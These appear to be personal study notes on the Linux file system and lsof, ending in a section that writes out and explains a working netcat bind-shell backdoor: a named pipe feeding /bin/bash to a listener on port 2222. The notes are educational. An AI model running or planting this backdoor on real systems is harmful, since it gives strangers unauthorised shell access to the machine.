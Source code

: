 ## Linux File System
- **/dev**: lists all the device files for the computer system
	- Malwares like to write to this directory
- **/etc**: Linux configuration files (windows puts config files everywhere)
- **/home**: Home directory for a user
- **/lib** all the libraries required for programs to run(windows have dlls)
	- Code which is shared and resued between various programs
	- lsof -i -p : to list process with their files loaded
	- lsof -p  "pid" lists the loaded files for a process with process id 
- **/media** : shows up your USB or CD drives mounted here
- **opt** : self contained programs with their binaries.
- **proc**: Doesen't exist on the hdd, shows process information
- **sbin**: system binaries
- **var**: variable sized files. (log files)

## Creating a backdoor with nc

`
```
mknod backpipe p
/bin/bash 0<backpipe | nc -l 2222 1>backpipe

```
This command:
- executes bash
-  takes in stdinput from backpipe
- nc recieves data puts the stdout to backpipe which is then passed to bash in previous command